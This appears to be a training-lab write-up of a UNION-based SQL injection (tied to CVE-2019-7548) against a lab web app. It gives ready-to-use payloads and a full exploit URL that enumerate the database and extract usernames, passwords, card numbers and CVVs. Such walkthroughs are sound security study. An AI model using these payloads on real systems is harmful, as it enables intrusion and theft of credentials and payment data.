

---
---

# IML - CVE-2019-7548 (SQLAlchemy)


- Firstly we can see that there is a parameter that might be vulnerable to SQLi

- To test it, we can use a ' to break it


- From here I use the order by query to find out how many columns the table has (trial and error)
- It errors at 9 so the table has 8 columns


- Now we can do union select 1,2,3,4,5,6,7,8 because the UNION has to have the same number of columns as the current table
- It was trial and error to find where the values were being reflected but I found it on the last page (221)




- Now we know where it is being reflected, we can get some information

- First find the type of DB and version:
```bash
union select 1,2,3,4,5,6,7,@@version

```


- Answering the questions:


- First let's get the database name - and because it's MariaDB we use:
```bash
database()

```


- We can now enumerate the tables with:
```bash
union select 1,2,3,4,5,6,7,group_concat(table_name) from information_schema.tables where table_schema="website"

```


- From here we get the tables <u>transactions and users</u>

- First let's enumerate the table users:
```bash
union select 1,2,3,4,5,6,7,group_concat(column_name) from information_schema.columns where table_name="users"

```


- Here we get the columns
id,firstName,lastName,country,username,email,password,cardNumber,cardIssuer,cardExpiry,cardCVV

- To read the columns we do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users

```
This will read and concat the two columns: username and password. The 0x2b is a delimeter to make it more easily readable


- To narrow it down do:
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users where username="ywalsh"

```


- Use the following:

```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardNumber) from users where lastname="Park" and firstName="Shelly"

```


- Use the following:
```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV) from users where lastname="Elliott" and firstName="John"

```


Full URL for this is:

[http://10.102.16.9/?page=221&group=email%20union%20select%201,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV)%20from%20users%20where%20lastname=%22Elliott%22%20and%20firstName=%22John%22](http://.)